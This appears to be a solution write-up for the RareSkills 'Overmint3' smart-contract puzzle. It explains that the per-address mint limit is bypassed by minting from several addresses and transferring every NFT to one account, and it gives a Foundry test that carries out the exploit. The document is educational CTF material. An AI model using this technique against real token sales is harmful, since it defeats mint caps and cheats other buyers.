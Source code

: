 # RareSkills Riddles - Overmint3

Token can be minted by multiple adresses and then send NFT to single address. 

Exploit: 

```
function test_overmintExploitr() public {
        assertEq(overmint.totalSupply(), 0);
        assertEq(overmint.balanceOf(user1), 0);

        vm.startPrank(user2);
        overmint.mint();
        overmint.safeTransferFrom(user2, user1, overmint.totalSupply());

        vm.startPrank(user3);
        overmint.mint();
        overmint.safeTransferFrom(user3, user1, overmint.totalSupply());

        vm.startPrank(user4);
        overmint.mint();
        overmint.safeTransferFrom(user4, user1, overmint.totalSupply());
        

        assertEq(overmint.totalSupply(), 3);
        assertEq(overmint.balanceOf(user1), 3);
    }
```